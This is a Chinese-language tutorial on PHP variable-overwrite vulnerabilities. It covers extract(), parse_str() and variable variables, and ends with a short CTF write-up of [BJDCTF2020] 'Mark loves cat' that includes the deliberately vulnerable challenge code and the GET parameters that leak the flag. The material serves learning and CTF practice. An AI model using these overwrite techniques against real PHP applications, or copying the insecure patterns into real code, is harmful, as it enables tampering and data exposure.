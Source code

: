 > 变量覆盖漏洞是指攻击者使用自定义的变量去覆盖源代码中的变量,从而改变代码逻辑,实现攻击目的的一种漏洞

1. `extract`函数使用不当

`extract`从数组中将变量导入到当前的符号表

>**警告** 不要对不可信的数据使用`extract`,类似用户输入(例如`$_GET`,`$_FILES`)

```php
<?php
$a=1;
$b=2;
extract($_GET['a']);
var_dump($_GET['a']);
var_dump($a);
var_dump($b);
?>
```

传入`?a[a]=123&a[b]=456`得到`array(2) { ["a"]=> string(3) "123" ["b"]=> string(3) "456" } string(3) "123" string(3) "456"`可见变量已经被修改

2. `parse_str`函数使用不当

`parse_str`将字符串解析成多个变量

`parse_str ( string $string , array &$result ) : void`

如果`string`是URL传递入的查询字符串,则将它解析为变量并设置到当前作用域(如果提供了`result`则会设置到该数组里)

```php
<?php
    $a=1;
    var_dump($a);
    parse_str("a=3");
    var_dump($a);
	/*int(1)
    string(1) "3"*/
?>
```

3. `$$`可变变量

```php
<?php
    $a=1;
    $b="a";
    $c="b";
    $d="c";
    var_dump($d);
    var_dump($$d);
    var_dump($$$d);
    var_dump($$$$d);
?>
```

```
string(1) "c"
string(1) "b"
string(1) "a"
int(1)
```

> [BJDCTF2020]Mark loves cat

```php
<?php
include 'flag.php';
$yds = "dog";
$is = "cat";
$handsome = 'yds';

foreach($_POST as $x => $y){
    $$x = $y;
}
foreach($_GET as $x => $y){
    $$x = $$y;
}
foreach($_GET as $x => $y){
    if($_GET['flag'] === $x && $x !== 'flag'){
        exit($handsome);
    }
}
if(!isset($_GET['flag']) && !isset($_POST['flag'])){
    exit($yds);
}
if($_POST['flag'] === 'flag'  || $_GET['flag'] === 'flag'){
    exit($is);
}
echo "the flag is: ".$flag;
```

假设通过`exit($handsome)`getflag,那么`$handsome=$flag`

通过get传参`handsome=flag&flag=handsome`同时满足`$x=handsome,$y=flag,$$x=$handsome,$$y=$flag`和`$_GET['flag'] === $x && $x !== 'flag'`,即可getflag

---

假设通过`exit($yds)`getflag,那么`$yds=$flag`

通过get传参`yds=flag`可以满足`$x=yds,$y=flag,$$x=$yds,$$y=$flag`,即可getflag